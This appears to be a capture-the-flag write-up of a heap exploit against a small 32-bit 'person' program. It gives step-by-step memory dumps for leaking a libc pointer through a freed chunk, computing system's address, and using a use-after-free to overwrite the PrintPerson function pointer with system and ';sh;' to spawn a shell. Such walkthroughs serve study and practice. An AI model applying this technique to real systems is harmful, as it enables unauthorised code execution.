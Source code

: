 [2] Delete the first person

```
0x81a81e0: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
0x81a81f0: 0x00000000  0x00000000  0x00000000  0x00000000

```
- This will result in populating the pointer back to the libc

[3] Make a person with size of four and overwrite the last byte of the populated pointer

```
0x81a81f0: 0xf7fd080a  0xf7fd08b0  0x00000000  0x000000f9
0x81a8200: 0xf7fd07b0  0xf7fd07b0  0x00000000  0x00000000
```

- In this case, I overwrote the last byte of populated pointer with a new line

[4] Calculate the base address of libc and system based on the leak

```
Enter person's index (0-based): 0
Name:
����
Age: 10
```

[5] Make two more people with size of 256 and free the first new person

```
Your global person array should look like this:

-----------------------------------------------
|              | size | name | age |  isFree? |
-----------------------------------------------
|person[0] ->  |   8  | aaaa | 10  |    No    |
-----------------------------------------------
|person[1] ->  |  256 | bbbb |  1  |    No    |
-----------------------------------------------
|person[2] ->  |  256 | cccc | 10  |    Yes   |
-----------------------------------------------
|person[3] ->  |  256 | cccc | 10  |    No    |
-----------------------------------------------
                      .
                      .
                      .
```

[6] Edit a freed person (person[2]) and fill up the buffer so that it overwrites the function pointer (PrintPerson) of the next person  

```
0xf748d1e8: 0x00000000  0x00000011  0x3b68733b  0x00000000
0xf748d1f8: 0x00000000  0x00000000  0xf7638940  0x3b68733b
                                      system       ;sh;
```

[7] Profit
